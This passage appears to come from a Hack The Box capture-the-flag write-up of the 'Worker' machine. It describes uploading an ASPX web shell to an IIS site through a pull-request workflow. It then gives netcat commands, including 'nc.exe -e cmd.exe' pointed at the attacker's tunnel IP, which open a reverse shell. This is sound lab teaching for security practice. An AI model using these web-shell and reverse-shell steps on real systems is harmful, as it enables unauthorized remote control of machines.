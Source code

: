 ```
Awesome! It worked. This means that we have the ability to upload files that the IIS server will serve. We should now think about what kind of payload would work best. We know that it is an IIS server. But we haven’t seen any page types beyond basic HTML pages. We really do not know what page types the server is configured to render, but we do know that it is very common for IIS servers to be configured to serve ASP files. With that in mind, it would be worth trying to upload an aspx web shell that will allow us to run commands on the machine from the web browser.  

## Getting a Shell
A Google search for an `ASPX Web Shell` will lead you to a lot of places, as there are many out there. I personally have had a lot of success with [this shell](https://packetstormsecurity.com/files/60858/aspxshell.aspx.txt.html). Download the shell and move it to your working directory, naming it `shell.aspx`.

Now we just need to go through the same process again to get this uploaded to the master branch. 
* Create a new branch. 
* Upload the shell.aspx to the branch.
* Create a pull request, attaching a work item.
* Approve and complete the pull request.

Once the shell.aspx has been uploaded to the master branch, we can navigate to `http://spectral.worker.htb/shell.aspx` in our browser to see if it renders successfully.

![](/assets/images/htb-worker/20_worker_web_shell.png)

Success! We now have a shell that allows us to execute commands, as well as brows the file system, and upload files. Now, knowing that the master branch is going to be reset, and that our shell.aspx page will be removed, we should work on using this web shell to upload `nc.exe` and then execute it. This will hopefully result in us having a persistent reverse shell that will remain connected even after our web shell file is removed.

Using the `File Browser` in the reverse shell, navigate to `C:\Windows\Temp`. Now upload `nc.exe` using the upload tool in the web shell. Kali images have the `nc.exe` binaries located at `/usr/share/windows-binaries/nc.exe`.

After uploading nc.exe we just need to start a listener on our attacking machine and then use the web shell to run nc, requesting a connection to our listener. Start a netcat listener on port 443 with the following command.

``` bash
nc -lvnp 443
```

Now in the web shell, execute the following command. Be sure to add the IP of your VPN connection.

``` bash
C:\Windows\Temp\nc.exe -e cmd.exe <YOUR TUNNEL IP> 443
```
